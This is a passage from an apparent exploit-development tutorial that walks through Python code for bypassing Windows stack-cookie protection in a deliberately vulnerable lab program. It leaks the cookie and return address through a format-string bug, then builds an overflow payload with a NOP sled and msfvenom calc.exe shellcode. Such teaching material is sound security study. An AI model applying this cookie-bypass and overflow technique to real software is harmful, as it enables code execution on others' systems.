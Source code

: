 In the `main` code I pass `output` to a helper function `get_memleak_values(output)` that returns the addresses we need to construct the exploit / to help process the values in the leaked output we need to construct the exploit.

```python
addr = get_memleak_values(output)
```

To refresh, the copy of the stack cookie is found at the 17th address and the stack pointer is at the 18th address.  In the first line, I split the output on each space into a list of addresses where `memleak[0]` contains the `printf>` prompt and `memleak[1:]` contains the leaked addresses.  Therefore, the 17th address can be accessed directly in `memleak[17]` and so on.  The function returns the addresses as a tuple.

```python
def get_memleak_values(output):
  memleak = output.split(' ')

  eax = int(memleak[17],16) # index 17 = eax (stack cookie)
  ret = int(memleak[18],16) # index 18 = return address (esp)
  ebp = ret - 0x8

  # Output memory leak and calculated registers/values
  print "{0} {1}\n{2}".format(memleak[0], 40, ''.join(x + " " for x in memleak[1:]))
  print "[*] Leaked addresses from memleak:"
  print "eax = 0x{:>08x}".format(eax)
  print "ret = 0x{:>08x}".format(ret)
  print "cookie = 0x{:>08x}\n".format(eax^ebp)  # eax ^ ebp = cookie

  # Return addresses as a tuple
  return (eax, ret)
```

Next, the code passes the addresses returned from memleak to a helper function that crafts the exploit on the fly while vuln.exe waits for more input from STDIN in `overflow()`.

```python
payload = create_payload(addr[0], addr[1])
```

The payload generation in `create_payload(eax, ret)` works exactly as described in this post.  The fixed values in the payload that don't change are the 1024 bytes of padding in buf, the 4 byte address in ebp, the nopsled, and the shellcode.  The only dynamic values are the cookie and return address which are obtained from the running vulnerable program.

Since ebp is only used as a placeholder for padding to get to the return address, it doesn't matter which value occupies this space.  Just as long as it's 4 bytes in size.  Another thing to point out is the length of the nop sled.  I have tested the exploit with lengths of 30 to 300 bytes with success.  This may differ system to system so it's important to test and experiment!

The shellcode in `gen_shellcode()` is pasted directly from `msfvenom`'s output thanks to its python formatting option.

```python
def create_payload(eax, ret):
  buf  = "\x41" * 1024    # buf
  buf += pack('<I', eax)  # eax = XOR'd cookie
  buf += "\x42" * 4       # overwrite ebp w/ random 4-byte address
  buf += pack('<I', ret)  # overwrite eip w/ address from memleak
  buf += "\x90" * 100     # nopsled
  buf += gen_shellcode()  # msfvenom calc.exe shellcode
  # returns exploit payload
  return buf
```


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #putting-it-all-together
[Click here]: https://docs.microsoft.com/en-us/cpp/build/building-on-the-command-line
[vulnerable]: #overview-of-windows-mitigations "Overview of Windows Mitigations"
[vulnerable program]: #the-vulnerable-code "Source Code"
[line 3]: #prologue-line-3 "Prologue Line 3"
[previous section]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[here]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[skip]: #putting-it-all-together "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check
[2]: http://uninformed.org/index.cgi?v=7&a=2
[3]: https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/